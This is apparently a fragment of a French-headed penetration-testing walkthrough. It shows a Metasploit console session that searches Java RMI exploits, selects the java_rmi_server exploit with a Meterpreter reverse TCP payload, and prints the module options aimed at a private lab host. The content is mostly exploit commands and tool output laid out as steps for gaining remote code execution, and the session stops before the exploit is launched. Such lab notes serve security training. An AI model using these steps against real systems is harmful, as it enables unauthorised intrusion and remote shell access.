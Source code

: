 ## Java RMI

#### Selectionner le payload

```bash
msf6 exploit(multi/misc/java_rmi_server) > search type:exploit java_rmi

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/browser/java_rmi_connection_impl  2010-03-31       excellent  No     Java RMIConnectionImpl Deserialization Privilege Escalation
   1  exploit/multi/misc/java_rmi_server              2011-10-15       excellent  No     Java RMI Server Insecure Default Configuration Java Code Execution


Interact with a module by name or index, for example use 1 or use exploit/multi/misc/java_rmi_server

msf6 exploit(multi/misc/java_rmi_server) > use exploit/multi/misc/java_rmi_server
[*] Using configured payload java/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/misc/java_rmi_server) > info

       Name: Java RMI Server Insecure Default Configuration Java Code Execution
     Module: exploit/multi/misc/java_rmi_server
   Platform: Java, Linux, OSX, Solaris, Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-10-15

Provided by:
  mihi

Available targets:
  Id  Name
  --  ----
  0   Generic (Java Payload)
  1   Windows x86 (Native Payload)
  2   Linux x86 (Native Payload)
  3   Mac OS X PPC (Native Payload)
  4   Mac OS X x86 (Native Payload)

Check supported:
  No

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  HTTPDELAY  10               yes       Time that the HTTP Server will wait for the payload request
  RHOSTS     192.168.56.115   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      35476            yes       The target port (TCP)
  SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT    8080             yes       The local port to listen on.
```